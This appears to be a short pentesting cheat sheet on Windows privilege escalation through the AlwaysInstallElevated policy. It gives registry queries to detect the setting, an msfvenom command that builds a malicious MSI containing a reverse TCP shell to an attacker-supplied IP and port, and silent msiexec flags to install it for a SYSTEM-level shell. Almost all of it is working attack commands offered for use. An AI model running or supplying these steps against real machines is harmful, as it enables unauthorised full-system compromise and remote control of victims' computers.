 ### Enumerating AlwaysInstallElevated Settings

Check both the HKCU and HKLM registry hives:

```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

If both return `AlwaysInstallElevated REG_DWORD 0x1`, the setting is active.
### Generating a Malicious MSI

```bash
msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=PORT -f msi > aie.msi
```

Execute using:

```cmd
msiexec /i C:\Path\To\aie.msi /quiet /qn /norestart
```

If successful, you'll get a SYSTEM-level shell.
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #AlwaysInstallElevated 